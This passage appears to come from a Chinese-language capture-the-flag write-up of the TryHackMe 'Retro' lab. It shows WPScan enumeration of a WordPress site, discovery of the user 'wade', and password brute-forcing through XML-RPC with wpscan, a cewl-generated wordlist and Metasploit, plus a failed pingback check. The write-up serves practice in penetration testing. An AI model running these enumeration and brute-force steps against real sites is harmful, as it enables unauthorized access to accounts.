 |  - https://www.rapid7.com/db/modules/auxiliary/scanner/http/wordpress_xmlrpc_login/
 |  - https://www.rapid7.com/db/modules/auxiliary/scanner/http/wordpress_pingback_access/

[+] WordPress readme found: http://retro.thm/retro/readme.html
 | Found By: Direct Access (Aggressive Detection)
 | Confidence: 100%

[+] The external WP-Cron seems to be enabled: http://retro.thm/retro/wp-cron.php
 | Found By: Direct Access (Aggressive Detection)
 | Confidence: 60%
 | References:
 |  - https://www.iplocation.net/defend-wordpress-from-ddos
 |  - https://github.com/wpscanteam/wpscan/issues/1299

[+] WordPress version 5.2.1 identified (Insecure, released on 2019-05-21).
 | Found By: Rss Generator (Passive Detection)
 |  - http://retro.thm/retro/index.php/feed/, <generator>https://wordpress.org/?v=5.2.1</generator>
 |  - http://retro.thm/retro/index.php/comments/feed/, <generator>https://wordpress.org/?v=5.2.1</generator>

[+] WordPress theme in use: 90s-retro
 | Location: http://retro.thm/retro/wp-content/themes/90s-retro/
 | Latest Version: 1.4.10 (up to date)
 | Last Updated: 2019-04-15T00:00:00.000Z
 | Readme: http://retro.thm/retro/wp-content/themes/90s-retro/readme.txt
 | Style URL: http://retro.thm/retro/wp-content/themes/90s-retro/style.css?ver=5.2.1
 | Style Name: 90s Retro
 | Style URI: https://organicthemes.com/retro-theme/
 | Description: Have you ever wished your WordPress blog looked like an old Geocities site from the 90s!? Probably n...
 | Author: Organic Themes
 | Author URI: https://organicthemes.com
 |
 | Found By: Css Style In Homepage (Passive Detection)
 |
 | Version: 1.4.10 (80% confidence)
 | Found By: Style (Passive Detection)
 |  - http://retro.thm/retro/wp-content/themes/90s-retro/style.css?ver=5.2.1, Match: 'Version: 1.4.10'

[+] Enumerating All Plugins (via Passive Methods)

[i] No plugins Found.

[+] Enumerating Config Backups (via Passive and Aggressive Methods)
 Checking Config Backups - Time: 00:00:02 <> (10 / 137)  7.29%  ETA: 00:00:2 Checking Config Backups - Time: 00:00:02 <> (15 / 137) 10.94%  ETA: 00:00:2 Checking Config Backups - Time: 00:00:03 <> (18 / 137) 13.13%  ETA: 00:00:2 Checking Config Backups - Time: 00:00:03 <> (22 / 137) 16.05%  ETA: 00:00:2 Checking Config Backups - Time: 00:00:03 <> (23 / 137) 16.78%  ETA: 00:00:1 Checking Config Backups - Time: 00:00:03 <> (25 / 137) 18.24%  ETA: 00:00:1 Checking Config Backups - Time: 00:00:04 <> (27 / 137) 19.70%  ETA: 00:00:1 Checking Config Backups - Time: 00:00:04 <> (32 / 137) 23.35%  ETA: 00:00:1 Checking Config Backups - Time: 00:00:05 <> (36 / 137) 26.27%  ETA: 00:00:1 Checking Config Backups - Time: 00:00:05 <> (40 / 137) 29.19%  ETA: 00:00:1 Checking Config Backups - Time: 00:00:06 <> (44 / 137) 32.11%  ETA: 00:00:1 Checking Config Backups - Time: 00:00:11 <> (45 / 137) 32.84%  ETA: 00:00:2 Checking Config Backups - Time: 00:00:11 <> (49 / 137) 35.76%  ETA: 00:00:2 Checking Config Backups - Time: 00:00:12 <> (53 / 137) 38.68%  ETA: 00:00:1 Checking Config Backups - Time: 00:00:12 <> (58 / 137) 42.33%  ETA: 00:00:1 Checking Config Backups - Time: 00:00:13 <> (63 / 137) 45.98%  ETA: 00:00:1 Checking Config Backups - Time: 00:00:13 <> (68 / 137) 49.63%  ETA: 00:00:1 Checking Config Backups - Time: 00:00:14 <> (73 / 137) 53.28%  ETA: 00:00:1 Checking Config Backups - Time: 00:00:14 <> (77 / 137) 56.20%  ETA: 00:00:1 Checking Config Backups - Time: 00:00:15 <> (82 / 137) 59.85%  ETA: 00:00:1 Checking Config Backups - Time: 00:00:15 <> (87 / 137) 63.50%  ETA: 00:00:0 Checking Config Backups - Time: 00:00:16 <> (91 / 137) 66.42%  ETA: 00:00:0 Checking Config Backups - Time: 00:00:16 <> (96 / 137) 70.07%  ETA: 00:00:0 Checking Config Backups - Time: 00:00:17 <> (100 / 137) 72.99%  ETA: 00:00: Checking Config Backups - Time: 00:00:17 <> (105 / 137) 76.64%  ETA: 00:00: Checking Config Backups - Time: 00:00:18 <> (109 / 137) 79.56%  ETA: 00:00: Checking Config Backups - Time: 00:00:18 <> (114 / 137) 83.21%  ETA: 00:00: Checking Config Backups - Time: 00:00:19 <> (118 / 137) 86.13%  ETA: 00:00: Checking Config Backups - Time: 00:00:19 <> (123 / 137) 89.78%  ETA: 00:00: Checking Config Backups - Time: 00:00:20 <> (128 / 137) 93.43%  ETA: 00:00: Checking Config Backups - Time: 00:00:21 <> (133 / 137) 97.08%  ETA: 00:00: Checking Config Backups - Time: 00:00:21 <> (137 / 137) 100.00% Time: 00:00:21

[i] No Config Backups Found.

[!] No WPScan API Token given, as a result vulnerability data has not been output.
[!] You can get a free API token with 25 daily requests by registering at https://wpscan.com/register

[+] Finished: Thu Nov  6 13:00:19 2025
[+] Requests Done: 170
[+] Cached Requests: 5
[+] Data Sent: 42.531 KB
[+] Data Received: 221.091 KB
[+] Memory used: 257.598 MB
[+] Elapsed time: 00:00:47
```

#### 找到 user
找看看 users
```bash
┌──(kali㉿kali)-[~/tryhackme/retro]
└─$ wpscan --url http://retro.thm/retro --no-update --enumerate u

_______________________________________________________________
         __          _______   _____
         \ \        / /  __ \ / ____|
          \ \  /\  / /| |__) | (___   ___  __ _ _ __ ®
           \ \/  \/ / |  ___/ \___ \ / __|/ _` | '_ \
            \  /\  /  | |     ____) | (__| (_| | | | |
             \/  \/   |_|    |_____/ \___|\__,_|_| |_|

         WordPress Security Scanner by the WPScan Team
                         Version 3.8.28
       Sponsored by Automattic - https://automattic.com/
       @_WPScan_, @ethicalhack3r, @erwan_lr, @firefart
_______________________________________________________________

[+] URL: http://retro.thm/retro/ [10.10.200.42]
[+] Started: Thu Nov  6 13:03:58 2025

Interesting Finding(s):

[+] Headers
 | Interesting Entries:
 |  - Server: Microsoft-IIS/10.0
 |  - X-Powered-By: PHP/7.1.29
 | Found By: Headers (Passive Detection)
 | Confidence: 100%

[+] XML-RPC seems to be enabled: http://retro.thm/retro/xmlrpc.php
 | Found By: Direct Access (Aggressive Detection)
 | Confidence: 100%
 | References:
 |  - http://codex.wordpress.org/XML-RPC_Pingback_API
 |  - https://www.rapid7.com/db/modules/auxiliary/scanner/http/wordpress_ghost_scanner/
 |  - https://www.rapid7.com/db/modules/auxiliary/dos/http/wordpress_xmlrpc_dos/
 |  - https://www.rapid7.com/db/modules/auxiliary/scanner/http/wordpress_xmlrpc_login/
 |  - https://www.rapid7.com/db/modules/auxiliary/scanner/http/wordpress_pingback_access/

[+] WordPress readme found: http://retro.thm/retro/readme.html
 | Found By: Direct Access (Aggressive Detection)
 | Confidence: 100%

[+] The external WP-Cron seems to be enabled: http://retro.thm/retro/wp-cron.php
 | Found By: Direct Access (Aggressive Detection)
 | Confidence: 60%
 | References:
 |  - https://www.iplocation.net/defend-wordpress-from-ddos
 |  - https://github.com/wpscanteam/wpscan/issues/1299

[+] WordPress version 5.2.1 identified (Insecure, released on 2019-05-21).
 | Found By: Rss Generator (Passive Detection)
 |  - http://retro.thm/retro/index.php/feed/, <generator>https://wordpress.org/?v=5.2.1</generator>
 |  - http://retro.thm/retro/index.php/comments/feed/, <generator>https://wordpress.org/?v=5.2.1</generator>

[+] WordPress theme in use: 90s-retro
 | Location: http://retro.thm/retro/wp-content/themes/90s-retro/
 | Latest Version: 1.4.10 (up to date)
 | Last Updated: 2019-04-15T00:00:00.000Z
 | Readme: http://retro.thm/retro/wp-content/themes/90s-retro/readme.txt
 | Style URL: http://retro.thm/retro/wp-content/themes/90s-retro/style.css?ver=5.2.1
 | Style Name: 90s Retro
 | Style URI: https://organicthemes.com/retro-theme/
 | Description: Have you ever wished your WordPress blog looked like an old Geocities site from the 90s!? Probably n...
 | Author: Organic Themes
 | Author URI: https://organicthemes.com
 |
 | Found By: Css Style In Homepage (Passive Detection)
 |
 | Version: 1.4.10 (80% confidence)
 | Found By: Style (Passive Detection)
 |  - http://retro.thm/retro/wp-content/themes/90s-retro/style.css?ver=5.2.1, Match: 'Version: 1.4.10'

[+] Enumerating Users (via Passive and Aggressive Methods)
 Brute Forcing Author IDs - Time: 00:00:07 <> (10 / 10) 100.00% Time: 00:00:07

[i] User(s) Identified:

[+] wade
 | Found By: Author Posts - Author Pattern (Passive Detection)
 | Confirmed By:
 |  Wp Json Api (Aggressive Detection)
 |   - http://retro.thm/retro/index.php/wp-json/wp/v2/users/?per_page=100&page=1
 |  Author Id Brute Forcing - Author Pattern (Aggressive Detection)
 |  Login Error Messages (Aggressive Detection)

[+] Wade
 | Found By: Rss Generator (Passive Detection)
 | Confirmed By: Login Error Messages (Aggressive Detection)

[!] No WPScan API Token given, as a result vulnerability data has not been output.
[!] You can get a free API token with 25 daily requests by registering at https://wpscan.com/register

[+] Finished: Thu Nov  6 13:04:19 2025
[+] Requests Done: 24
[+] Cached Requests: 36
[+] Data Sent: 6.301 KB
[+] Data Received: 38.619 KB
[+] Memory used: 179.945 MB
[+] Elapsed time: 00:00:21

```

#### wpscan 暴力破解
練習工具而已
所以做了一個簡單的 wordlists
測試是否能破解成功
```bash
└─$ wpscan --url http://retro.thm/retro -U wade -P wordlists

[+] Performing password attack on Xmlrpc against 1 user/s
Trying wade / parzival Time: 00:00:01 <=====> (1 / 1) 100.00% Time: 00:00:01
Trying wade / parzival Time: 00:00:01 <===   > (1 / 2) 50.00%  ETA: ??:??:??
[SUCCESS] - wade / p...l    
```

#### 製作字典
後來發現透過 blog 下載製作的字典也有包含密碼
也可透過此字典暴力破解
```bash  
┌──(kali㉿kali)-[~/tryhackme/retro]
└─$ cewl http://retro.thm/retro -w wordlist_url.txt

┌──(kali㉿kali)-[~/tryhackme/retro]
└─$ cat wordlist_url.txt| grep 'p...l'
p...l
     
┌──(kali㉿kali)-[~/tryhackme/retro]
└─$ wc wordlist_url.txt 
 848  848 5915 wordlist_url.txt

```

### msfconsole
利用 msfconsole 暴力破解
字典一樣用測試用
```bash
msf6 auxiliary(scanner/http/wordpress_xmlrpc_login) > show options

Module options (auxiliary/scanner/http/wordpress_xmlrpc_login):

   Name              Current Setting  Required  Description
   ----              ---------------  --------  -----------
   ANONYMOUS_LOGIN   false            yes       Attempt to login with a bl
                                                ank username and password
   BRUTEFORCE_SPEED  5                yes       How fast to bruteforce, fr
                                                om 0 to 5
   DB_ALL_CREDS      false            no        Try each user/password cou
                                                ple stored in the current
                                                database
   DB_ALL_PASS       false            no        Add all passwords in the c
                                                urrent database to the lis
                                                t
   DB_ALL_USERS      false            no        Add all users in the curre
                                                nt database to the list
   DB_SKIP_EXISTING  none             no        Skip existing credentials
                                                stored in the current data
                                                base (Accepted: none, user
                                                , user&realm)
   PASSWORD                           no        A specific password to aut
                                                henticate with
   PASS_FILE         wordlists        no        File containing passwords,
                                                 one per line
   Proxies                            no        A proxy chain of format ty
                                                pe:host:port[,type:host:po
                                                rt][...]. Supported proxie
                                                s: sapni, socks4, socks5,
                                                socks5h, http
   RHOSTS            retro.thm        yes       The target host(s), see ht
                                                tps://docs.metasploit.com/
                                                docs/using-metasploit/basi
                                                cs/using-metasploit.html
   RPORT             80               yes       The target port (TCP)
   SSL               false            no        Negotiate SSL/TLS for outg
                                                oing connections
   STOP_ON_SUCCESS   false            yes       Stop guessing when a crede
                                                ntial works for a host
   TARGETURI         /retro           yes       The base path to the wordp
                                                ress application
   THREADS           1                yes       The number of concurrent t
                                                hreads (max one per host)
   USERNAME          wade             no        A specific username to aut
                                                henticate as
   USERPASS_FILE                      no        File containing users and
                                                passwords separated by spa
                                                ce, one pair per line
   USER_AS_PASS      false            no        Try the username as the pa
                                                ssword for all users
   USER_FILE                          no        File containing usernames,
                                                 one per line
   VERBOSE           true             yes       Whether to print output fo
                                                r all attempts
   VHOST                              no        HTTP server virtual host


View the full module info with the info, or info -d command.

msf6 auxiliary(scanner/http/wordpress_xmlrpc_login) > run
[*] 10.10.200.42:80      :/retro/xmlrpc.php - Sending Hello...
[+] 10.10.200.42:80 - XMLRPC enabled, Hello message received!
[*] Starting XML-RPC login sweep...
[+] 10.10.200.42:80 - Success: 'wade:p...l'
[!] No active DB -- Credential data will not be saved!
[*] Scanned 1 of 1 hosts (100% complete)
[*] Auxiliary module execution completed

```

### pingback
```bash
msf6 auxiliary(scanner/http/wordpress_pingback_access) > show options

Module options (auxiliary/scanner/http/wordpress_pingback_access):

   Name       Current Setting  Required  Description
   ----       ---------------  --------  -----------
   Proxies                     no        A proxy chain of format type:host
                                         :port[,type:host:port][...]. Supp
                                         orted proxies: sapni, socks4, soc
                                         ks5, socks5h, http
   RHOSTS     retro.thm        yes       The target host(s), see https://d
                                         ocs.metasploit.com/docs/using-met
                                         asploit/basics/using-metasploit.h
                                         tml
   RPORT      80               yes       The target port (TCP)
   SSL        false            no        Negotiate SSL/TLS for outgoing co
                                         nnections
   TARGETURI  /retro           yes       The path to wordpress installatio
                                         n (e.g. /wordpress/)
   THREADS    1                yes       The number of concurrent threads
                                         (max one per host)
   VHOST                       no        HTTP server virtual host


View the full module info with the info, or info -d command.

msf6 auxiliary(scanner/http/wordpress_pingback_access) > run
[-] 10.10.200.42 - It doesn't appear to be vulnerable
[*] Scanned 1 of 1 hosts (100% complete)
[*] Auxiliary module execution completed
```
失敗


## 參考
https://medium.com/@conmurray/tryhackme-retro-write-up-fe4599480267  
https://blog.whale-tw.com/2024/03/07/retro-thm/